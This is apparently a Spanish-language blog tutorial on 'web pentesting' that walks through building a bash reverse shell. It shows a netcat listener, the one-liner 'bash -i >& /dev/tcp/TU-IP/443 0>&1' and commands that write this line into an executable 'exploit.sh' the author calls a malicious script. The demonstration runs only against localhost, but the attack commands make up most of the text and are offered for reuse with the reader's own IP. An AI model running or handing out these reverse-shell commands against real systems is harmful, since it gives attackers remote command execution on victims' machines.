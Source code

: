 ```yaml
---
title: ReverseShells & Malware
published: true
---
```


* Hoy se estará hablando de pentesting web, hablaremos sobre:
  Creación de `ReverseShell.`

<br>

* Primero, qué es una <font color="red">ReverseShell</font>. Lo explicaré en un lenguaje brusco: una ReverseShell es aquella que te permite ejecutar comandos en una PC que no es tu dominio, es decir, una IP que es la de la víctima conectada a un host, donde el host es tu equipo y te permite ejecución remota de comandos.

<center><a href="https://www.revshells.com/" target="_blanck">>Creación de reverse-shell.<</a></center>

<br>

<center> # ReverseShell</center>
<br>
* los programas a utilizar para la ReverseShell es bash, y nc (netcat) si usas Linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:


* Para <font color="yellow"> Linux </font>


```bash
sudo apt-get install netcat bash -y
```

* Para <font color="yellow">arch-Linux</font>

```bash
pacman -Sy netcat bash
```

<br>

* Importante


* Para este caso no utilizaremos sh sino que usaremos bash. Esto cambia un poco el contexto de la forma en la que se ejecuta el código, pero aun así se pueden lograr de mil formas aunque tengas una sh.

<img src="screenshots/screen_bash.jpg">

Como no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script.

<br>

---
<br>
*  Empezamos poniéndonos en escucha por el puerto 443 de netcat : 

```bash
nc -nvlp 443
```

*  Miramos que ip tenemos con el comando ifconfig :
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

*  Como pueden ver tengo la ip 127.0.0.1
<br>

*  Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablar la conexión desde otra terminal porque la primera está siendo ocupada por netcat. Entonces recuerden ejecutar el comando <b>bash</b> antes de entablar la conexión.
<br>

*  Para entablar la conexión hacemos el siguiente comando :

```bash
bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

*  Como pueden ver se me abrió un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.

-------
<br>

*  Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta vez el comando :
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

*  Lo que hace este comando es crear un script en bash para poder entablarme una conexión reversa. Pueden hacer <b>ls</b> y verán un archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecución.

* No se ofusque si no entiende la anterior  linea de código simplemente lo que hace es hacer un archivo con `touch` darle permisos
de ejecución con `chmod +x exploit.sh` y agregarle el código con `>>` :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
*  Pueden hacerlo manualmente con los siguientes comandos :

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

* Abren el archivo creado y coloca la siguiente linea : "bash -i >& /dev/tcp/SU-IP/443 0>&1"

*  Una vez ya hecho el archivo, pónganse en escucha por el puerto <b>443</b> con netcat. Recuerden que con el comando <q><b>nc -nlvp 443</b></q> nos poníamos en escucha por el puerto <b>443</b>. Este puerto puede ser modificado siempre y cuando el puerto no esté en uso, y claramente en el exploit o código pongan su respectivo puerto.

ﾠ
*  Nos ponemos en escucha con netcat
```#!/bin/bash
nc -nlvp 443
```
<br>
*  Y ejecutamos el archivo creado
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

* <b> Ahora como pude ver tengo una reverse Shell</b>
<br>

*  Lo más cómodo de hacerlo por script es que se puede ejecutar el archivo teniendo la zsh y ahorrándose el comando `bash` y ejecutar el archivo. Esto se debe a la extensión <b>"sh"</b> que tiene el archivo.

